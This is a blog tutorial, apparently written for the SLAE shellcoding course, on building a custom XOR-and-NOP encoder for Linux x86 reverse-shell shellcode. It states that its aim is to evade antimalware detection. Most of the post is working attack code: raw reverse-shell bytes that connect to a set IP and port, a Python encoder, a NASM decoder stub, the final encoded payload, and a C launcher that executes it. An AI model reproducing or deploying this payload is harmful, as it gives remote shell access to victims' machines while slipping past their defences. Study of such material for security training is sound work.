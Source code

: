 ```yaml
---                                                                                                                                                                                                                                       
title: Custom Encoder
author: Stipe Marinovic
date: 2020-06-10 22:00:00 +0800                                                                                                                                                                                                           
categories: [Blogging, Tutorial]                                                                                                                                                                                                          
tags: [slae, shellcoding]                                                                                                                                                                                                                 
toc: true                                                                                                                                                                                                                                 
---                                                                                                                                                                                                                                       
```

                                                                                                                                                                                                                                          
** PAGE STILL UNDER CONSTRUCTION **   
## Introduction ##

Sending well known shell code to target machine would most probably be detected by antimalware solution . 
One way to bypass antimalware detection is to encode shell code and to have higher chances for sucessful bypass, custom encoder should be created and used.  
In this blog post we will go thru process of creating simple encoder and decored. 
As an example we will preform XOR operation on every shell code byte with value ```0x0F``` (encoding key) and add NOP (```\x90```) instrunction after every encoded shell code byte. 
This endocer will double shell code size which can be tricky if buffer space is small but for educational purposes we can ignore that. 
During decoding procedure, XOR operation will be preformed to restore original shell code and NOP instructions will be ignored.  

## Shell code ##

We can use reverse shell code and wrapper form previous [blog post](https://smarinovic.github.io/posts/Reverse-shell/) which tries to establish connection to defined remote address at defined port (in our case IP address is 192.168.192.159 and port is 4444). 

```
python wrapper.py 192.168.192.159 4444
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\xb8\x67\x01\xb3\x02\xb1\x01\xb2\x06\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x6a\x01\x31\xc9\x51\x68\xc0\xa8\xc0\x9f\x66\x68\x11\x5c\x66\x6a\x02\x89\xfb\x89\xe1\xb2\x16\xcd\x80\x31\xc0\x31\xdb\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

## Encoding shell code ##

Once we get opcodes for encoded shell code, we will use following python script to read thru defined bytearray (shell code opcodes) and preform XOR operation with ```0x0F``` key. 
After XOR opration, NOP (```\x90```) will be injected after every encoded byte. 
```
#!/usr/bin/python
import sys
import  random

# Custom reverse shell opcode (connect to 192.168.192.159 at port 4444)
shellcode = b"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\xb8\x67\x01\xb3\x02\xb1\x01\xb2\x06\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x6a\x01\x31\xc9\x51\x68\xc0\xa8\xc0\x9f\x66\x68\x11\x5c\x66\x6a\x02\x89\xfb\x89\xe1\xb2\x16\xcd\x80\x31\xc0\x31\xdb\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

# Encoder: XOR every byte with 0x0F and then insert x90

enc_shellcode=""                 # declare empty string

for x in bytearray(shellcode):   # for every byte in bytearray
   x=x^0x0f                      # preform XOR byte with 0x0F
   enc_shellcode+='0x%02x,'%x    # write encoded byte in new string
   enc_shellcode+='0x90,'        # add NOP (\x90) after every encoded byte in new string

# Print encoded opcode
print 'Encoded shellcode: ' + enc_shellcode
```
Encoded shell code is following:
```
python encoder.py 
Encoded shellcode: 0x3e,0x90,0xcf,0x90,0x3e,0x90,0xd4,0x90,0x3e,0x90,0xc6,0x90,0x3e,0x90,0xdd,0x90,0x3e,0x90,0xf9,0x90,0x69,0x90,0xb7,0x90,0x68,0x90,0x0e,0x90,0xbc,0x90,0x0d,0x90,0xbe,0x90,0x0e,0x90,0xbd,0x90,0x09,0x90,0xc2,0x90,0x8f,0x90,0x86,0x90,0xc8,0x90,0x3e,0x90,0xcf,0x90,0x69,0x90,0xb7,0x90,0x65,0x90,0x0e,0x90,0x3e,0x90,0xc6,0x90,0x5e,0x90,0x67,0x90,0xcf,0x90,0xa7,0x90,0xcf,0x90,0x90,0x90,0x69,0x90,0x67,0x90,0x1e,0x90,0x53,0x90,0x69,0x90,0x65,0x90,0x0d,0x90,0x86,0x90,0xf4,0x90,0x86,0x90,0xee,0x90,0xbd,0x90,0x19,0x90,0xc2,0x90,0x8f,0x90,0x3e,0x90,0xcf,0x90,0x3e,0x90,0xd4,0x90,0x3e,0x90,0xc6,0x90,0xbe,0x90,0x0c,0x90,0x3e,0x90,0xcf,0x90,0xbf,0x90,0x30,0x90,0x86,0x90,0xf4,0x90,0xf1,0x90,0xc6,0x90,0xc2,0x90,0x8f,0x90,0x7a,0x90,0xfb,0x90,0x3e,0x90,0xcf,0x90,0x5f,0x90,0x67,0x90,0x61,0x90,0x20,0x90,0x7c,0x90,0x67,0x90,0x67,0x90,0x20,0x90,0x20,0x90,0x6d,0x90,0x66,0x90,0x86,0x90,0xec,0x90,0x5f,0x90,0x86,0x90,0xed,0x90,0x5c,0x90,0x86,0x90,0xee,0x90,0xbf,0x90,0x04,0x90,0xc2,0x90,0x8f,0x90,
```

## Decoder ##

To sucessfuly decode encoded shell code, we need to preform XOR operation for every shell code byte with previously defined key ```0x0F```. 
Every other byte will be skipped as it is NOP (```0x90```) instrunction. We will use following registers for decoding: 
* EAX for XOR operations
* ECX as counter for decoding stub
* EDX as pointer to beggining of encoded (and later decoded) shell code
* ESI as pointer to byte which we need to decode
* EDI as pointer to memory address where decoded byte will be placed overwriting original byte

Stub will overwrite original encoded shell code with decoded one, but since we will skip every other byte (\x90) we will have some "garbage" left on the stack. Since running our shell code is primary goal we won't bother with garbage code at this point in time.

```
global _start

section .text
_start:
    jmp short call_decoder

    decode:
        pop esi                  ; pop pointer to shellcode in ESI
        xor eax, eax             ; clear EAX - used for XOR operations
        xor ecx, ecx             ; clear EXC - used as counter
        xor edi, edi             ; clear EDI - used as pointer to decoded shell code destination
        mov cl, len              ; move length of the shellcode in cl
        sar cl, 1                ; divide by 2 (since we are skipping every 2nd byte which is \x90)
        mov edx, esi             ; save pointer to beggining of shellcode from ESI to EDX
        mov edi, esi             ; save pointer to beggining of shellcode from ESI to EDI

    decoder_loop:
        mov  al, byte [esi]      ; move one byte from address pointed by ESI
        xor byte al, 0x0f        ; XOR first byte of the shellcode with 0x0f
        mov [edi], al            ; move new value from AL to address pointed by ESI

        inc esi                  ; increment ESI (to get to new address)
        inc esi                  ; increment ESI (to skip \x90 - NOP)
        inc edi                  ; increment EDI - pointer to decoded shellcode

        dec ecx                  ; decrement ECX (counter) by 1
        cmp cl, 0x1              ; compare if CL is eaqual to 1 and is so - jump to shellcode pointed by EDX
        jnz decoder_loop
        jmp edx

    call_decoder:
        call decode
        shellcode: db 0x3e,0x90,0xcf,0x90,0x3e,0x90,0xd4,0x90,0x3e,0x90,0xc6,0x90,0x3e,0x90,0xdd,0x90,0x3e,0x90,0xf9,0x90,0x69,0x90,0xb7,0x90,0x68,0x90,0x0e,0x90,0xbc,0x90,0x0d,0x90,0xbe,0x90,0x0e,0x90,0xbd,0x90,0x09,0x90,0xc2,0x90,0x8f,0x90,0x86,0x90,0xc8,0x90,0x3e,0x90,0xcf,0x90,0x69,0x90,0xb7,0x90,0x65,0x90,0x0e,0x90,0x3e,0x90,0xc6,0x90,0x5e,0x90,0x67,0x90,0xcf,0x90,0xa7,0x90,0xcf,0x90,0x90,0x90,0x69,0x90,0x67,0x90,0x1e,0x90,0x53,0x90,0x69,0x90,0x65,0x90,0x0d,0x90,0x86,0x90,0xf4,0x90,0x86,0x90,0xee,0x90,0xbd,0x90,0x19,0x90,0xc2,0x90,0x8f,0x90,0x3e,0x90,0xcf,0x90,0x3e,0x90,0xd4,0x90,0x3e,0x90,0xc6,0x90,0xbe,0x90,0x0c,0x90,0x3e,0x90,0xcf,0x90,0xbf,0x90,0x30,0x90,0x86,0x90,0xf4,0x90,0xf1,0x90,0xc6,0x90,0xc2,0x90,0x8f,0x90,0x7a,0x90,0xfb,0x90,0x3e,0x90,0xcf,0x90,0x5f,0x90,0x67,0x90,0x61,0x90,0x20,0x90,0x7c,0x90,0x67,0x90,0x67,0x90,0x20,0x90,0x20,0x90,0x6d,0x90,0x66,0x90,0x86,0x90,0xec,0x90,0x5f,0x90,0x86,0x90,0xed,0x90,0x5c,0x90,0x86,0x90,0xee,0x90,0xbf,0x90,0x04,0x90,0xc2,0x90,0x8f,0x90
        len equ $-shellcode

```

Assembly code needs to be compiled and linked in the usual way.. 
```
nasm -f elf32 -o decoder.o decoder.nasm
ld -z execstack -o decoder decoder.o
```

But to get opcode we need to modify the usual objdump/cut command as output has more that 6 columns, so instead of ```cut -f1-6``` we need to use ```cut -f1-7``` as follows:

```
objdump -d $1 |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

With modified command, extracted opcode is following:
```
"\xeb\x20\x5e\x31\xc0\x31\xc9\x31\xff\xb1\xc4\xd0\xf9\x89\xf2\x89\xf7\x8a\x06\x34\x0f\x88\x07\x46\x46\x47\x49\x80\xf9\x01\x75\xf1\xff\xe2\xe8\xdb\xff\xff\xff\x3e\x90\xcf\x90\x3e\x90\xd4\x90\x3e\x90\xc6\x90\x3e\x90\xdd\x90\x3e\x90\xf9\x90\x69\x90\xb7\x90\x68\x90\x0e\x90\xbc\x90\x0d\x90\xbe\x90\x0e\x90\xbd\x90\x09\x90\xc2\x90\x8f\x90\x86\x90\xc8\x90\x3e\x90\xcf\x90\x69\x90\xb7\x90\x65\x90\x0e\x90\x3e\x90\xc6\x90\x5e\x90\x67\x90\xcf\x90\xa7\x90\xcf\x90\x90\x90\x69\x90\x67\x90\x1e\x90\x53\x90\x69\x90\x65\x90\x0d\x90\x86\x90\xf4\x90\x86\x90\xee\x90\xbd\x90\x19\x90\xc2\x90\x8f\x90\x3e\x90\xcf\x90\x3e\x90\xd4\x90\x3e\x90\xc6\x90\xbe\x90\x0c\x90\x3e\x90\xcf\x90\xbf\x90\x30\x90\x86\x90\xf4\x90\xf1\x90\xc6\x90\xc2\x90\x8f\x90\x7a\x90\xfb\x90\x3e\x90\xcf\x90\x5f\x90\x67\x90\x61\x90\x20\x90\x7c\x90\x67\x90\x67\x90\x20\x90\x20\x90\x6d\x90\x66\x90\x86\x90\xec\x90\x5f\x90\x86\x90\xed\x90\x5c\x90\x86\x90\xee\x90\xbf\x90\x04\x90\xc2\x90\x8f\x90"
```

Next, we can use skeleton code to run and test sucessfull decoding. To compile it following command should be used:

```
gcc -fno-stack-protector -z execstack -m32 skeleton.c -o encoded_revshell -g
```

Skeleton file with encoded shell code:

```
#include <stdio.h>

unsigned char shellcode[] = "\xeb\x20\x5e\x31\xc0\x31\xc9\x31\xff\xb1\xc4\xd0\xf9\x89\xf2\x89\xf7\x8a\x06\x34\x0f\x88\x07\x46\x46\x47\x49\x80\xf9\x01\x75\xf1\xff\xe2\xe8\xdb\xff\xff\xff\x3e\x90\xcf\x90\x3e\x90\xd4\x90\x3e\x90\xc6\x90\x3e\x90\xdd\x90\x3e\x90\xf9\x90\x69\x90\xb7\x90\x68\x90\x0e\x90\xbc\x90\x0d\x90\xbe\x90\x0e\x90\xbd\x90\x09\x90\xc2\x90\x8f\x90\x86\x90\xc8\x90\x3e\x90\xcf\x90\x69\x90\xb7\x90\x65\x90\x0e\x90\x3e\x90\xc6\x90\x5e\x90\x67\x90\xcf\x90\xa7\x90\xcf\x90\x90\x90\x69\x90\x67\x90\x1e\x90\x53\x90\x69\x90\x65\x90\x0d\x90\x86\x90\xf4\x90\x86\x90\xee\x90\xbd\x90\x19\x90\xc2\x90\x8f\x90\x3e\x90\xcf\x90\x3e\x90\xd4\x90\x3e\x90\xc6\x90\xbe\x90\x0c\x90\x3e\x90\xcf\x90\xbf\x90\x30\x90\x86\x90\xf4\x90\xf1\x90\xc6\x90\xc2\x90\x8f\x90\x7a\x90\xfb\x90\x3e\x90\xcf\x90\x5f\x90\x67\x90\x61\x90\x20\x90\x7c\x90\x67\x90\x67\x90\x20\x90\x20\x90\x6d\x90\x66\x90\x86\x90\xec\x90\x5f\x90\x86\x90\xed\x90\x5c\x90\x86\x90\xee\x90\xbf\x90\x04\x90\xc2\x90\x8f\x90";

int main()
{
        int (*ret)() = (int(*)())shellcode;
        printf("Size of shellcode: %d bytes.\n", sizeof(shellcode)); 
        ret();
}
```

By stepping thu program with GDB we can observe shell code decoding. ESI register is used for storing pointer to beggining of encoded shellcode.  
At the beggining of decoding stub we can see that ESI register is pointing to the beggining of encoded shellcode which is located at memory address: ```0x404067```. 

```
gdb-peda$ info register esi
esi            0x404067            0x404067
```

So in order to observe decoing, we will monitor first 10 bytes starting at ```0x404067``` memory address.
Before decoding starts we can see that memory address ```0x404067``` contain encoded shell code (0x3e, 0x90, 0xcf, 0x90, 0x3e, 0x90 ...)

* Initial data on address ```0x404067```  

```
gdb-peda$ x/10b 0x404067
0x404067 <shellcode+39>:        0x3e    0x90    0xcf    0x90    0x3e    0x90    0xd4    0x90
0x40406f <shellcode+47>:        0x3e    0x90
```

* content of the same address after few itterations:  
We can see that ```0x3e``` is decoded to ```0x31``` (which is result of following instruction ```XOR 0x0F, 0x3e```) and ```0x90``` is ignored and overwritten.

```
gdb-peda$ x/10b 0x404067
0x404067 <shellcode+39>:        0x31    0xc0    0x31    0xdb    0x31    0x90    0xd4    0x90
 decoded 1st opcode-------------^^^^
 NOP is ignored and replaced -----------^^^^
```

* content of the same address after some more itterations:  
We can see that decoded shell code does not contain added NOPs (```0x90```) and that all opcodes are XORed (0x3e XOR 0f = 0x31, 0xcf XOR 0x0f = 0xc0, etc.). Decoded opcodes overwrites original encoded opcodes:
```
gdb-peda$ x/10b 0x404067
0x404067 <shellcode+39>:        0x31    0xc0    0x31    0xdb    0x31    0xc9    0x31    0xd2
0x40406f <shellcode+47>:        0x31    0xf6
```

## Testing reverse shell ##

![Custom decoder working](https://smarinovic.github.io/assets/img/slae_00018.png)
